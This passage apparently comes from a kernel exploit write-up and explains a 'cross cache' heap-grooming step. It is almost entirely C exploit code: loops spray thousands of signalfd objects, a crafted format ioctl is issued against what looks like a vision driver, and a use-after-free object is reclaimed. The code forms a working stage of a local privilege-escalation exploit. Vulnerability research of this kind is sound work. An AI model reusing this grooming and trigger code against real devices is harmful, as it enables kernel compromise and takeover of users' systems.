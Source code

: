 ## Cross cache

First, I should mention that I open 0x3800 signalfd files initially to improve cross-cache. After this, I start the cross-cache process by opening `CPU_PARTIAL * OBJS_PER_SLAB`. Then, after the first kfree, I get the UAF object.

```C
/* init signalfd to better cross cache */
for (int i = 0; i < NUM_FILES; i++) {
	
	// pin_cpu(i % ncpu);
	
	mask.sig[0] = ~0; // | 0x40100
	
	fd_init[i] = signalfd(-1, &mask, 0);
	
	if (fd_init[i] < 0) {
		printf("[-] signalfd: %d\n", errno);
		exit(0);
	}
}

uint32_t i = 0, fd_idx = 0, offset =  0;

puts("[+] start signalfd cross cache");
/* start cross cache */
for (i = 0; i < (CPU_PARTIAL * OBJS_PER_SLAB); i++) { // [1] CPU_PARTIAL = 512
	
	// pin_cpu(i % ncpu);
	
	mask.sig[0] = ~0; // | 0x40100
	
	fd_cross[i] = signalfd(-1, &mask, 0);
	
	if (fd_cross[i] < 0) {
		printf("[-] signalfd: %d\n", errno);
		exit(0);
	}
}

offset = i;
	
/* do format ioctl */
do_format_ioctl(fd, N, VS4L_DIRECTION_IN, 1337);

puts("[+] getting vulnerable object (from signalfd)");

/* getting object vulnerable */
for (i = 0; i < MAX_SIGNAL; i++) {
	
	// pin_cpu(i % ncpu);
	
	mask.sig[0] = ~0; // | 0x40100
	
	fd_cross[offset + i] = signalfd(-1, &mask, 0);
	
	if (fd_cross[offset + i] < 0) {
		printf("[-] signalfd: %d\n", errno);
		exit(0);
	}
}
```
